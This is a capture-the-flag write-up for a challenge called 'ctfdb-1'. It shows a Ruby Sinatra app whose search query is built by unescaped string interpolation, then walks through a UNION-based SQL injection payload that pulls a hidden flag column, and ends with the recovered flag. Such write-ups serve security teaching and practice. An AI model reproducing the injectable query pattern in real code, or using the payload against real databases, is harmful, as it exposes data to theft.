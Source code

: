 # ctfdb-1

## Write-up

- Provided source code of the app (`app.rb`) :

```ruby
require 'dotenv'
require 'sinatra'
require 'sinatra/flash'
require 'mysql2'

Dotenv.load

# Constants

DEFAULT_LIMIT = 50
APP_HOST = ENV["APP_HOST"]
APP_PORT = ENV["APP_PORT"]
APP_ENV = ENV["APP_ENV"]
DB_HOST = ENV["DB_HOST"]
DB_USER = ENV["DB_USER"]
DB_PASS = ENV["DB_PASS"]
DB_NAME = ENV["DB_NAME"]

# Helpers

def render_country(country)
  ERB.new("<span class=\"flag-icon flag-icon-#{country}\"></span>").result(binding)
end

def connect_db
  client = Mysql2::Client.new(
    :host => DB_HOST,
    :username => DB_USER,
    :password => DB_PASS,
    :database => DB_NAME
  )
  client.query "SET NAMES utf8mb4"
  client
end

def unset?(s)
  s.nil? or s.empty?
end

# Configuration

enable :sessions
register Sinatra::Flash

helpers do
  def h(text)
    Rack::Utils.escape_html text
  end
end

configure do
  set :bind, APP_HOST
  set :port, APP_PORT
  set :environment, APP_ENV
end

not_found do
  status 404
  erb :"404", :layout => :layout
end

error 500 do
  status 500
  erb :"500", :layout => :layout
end

# Routes

get "/" do
  query = params["query"]
  country = params["country"]
  limit = params["limit"]

  if unset? query and unset? country
    return erb(
      :index,
      :layout => :layout,
      :locals => {
        :teams => nil
      }
    )
  end

  if country =~ /[^a-z]+/
    flash.now[:red] = "Invalid country"
    return erb(
      :index,
      :layout => :layout,
      :locals => {
        :teams => nil
      }
    )
  end

  limit = limit =~ /^\d+$/ ? limit : DEFAULT_LIMIT

  if unset? query and ! unset? country
    where = "country = '#{country}'"
  elsif ! unset? query and unset? country
    where = "name LIKE '#{query}%'"
  else
    where = "country = '#{country}' AND name LIKE '#{query}%'"
  end

  client = connect_db
  # sql_query = "SELECT name, country, flag FROM teams WHERE #{where} LIMIT #{DEFAULT_LIMIT} ORDER BY name ASC" 👀
  sql_query = "SELECT name, country FROM teams WHERE #{where} ORDER BY name ASC LIMIT #{limit}"

  rows = client.query sql_query
  teams = rows.map do |row|
    name = row["name"]
    country = render_country row["country"]
    {:name => name, :country => country}
  end

  client.close

  erb(
    :index,
    :layout => :layout,
    :locals => {
      :teams => teams
    }
  )
end
```

- We can notice an interesting comment :

```ruby
  # sql_query = "SELECT name, country, flag FROM teams WHERE #{where} LIMIT #{DEFAULT_LIMIT} ORDER BY name ASC" 👀
```

- Now we know there's a hidden `flag` column

- Since our query doesn't get escaped or filtered we have control over `sql_query`, consequently we can go for a SQL injection

- Let's first analyse the value of `sql_query` with `query=INPUT` :

```sql
SELECT name, country FROM teams WHERE name LIKE 'INPUT%' ORDER BY name ASC LIMIT 50
```

- Let's try a UNION injection to retrieve the flag column :

```sql
SELECT name, country FROM teams WHERE name LIKE '' UNION SELECT flag, 1 FROM teams WHERE flag LIKE '%' ORDER BY name ASC LIMIT 50
```

- Our query should then look like : `' UNION SELECT flag, 1 FROM teams WHERE flag LIKE '`

- After sending that query, we can read the flag in NAME column : `shellmates{$QlI_1$_N1c3_ANd_4LL_bUt_can_U_re4D_TH3_fl4g_FIL3??}`

## Flag

`shellmates{$QlI_1$_N1c3_ANd_4LL_bUt_can_U_re4D_TH3_fl4g_FIL3??}`
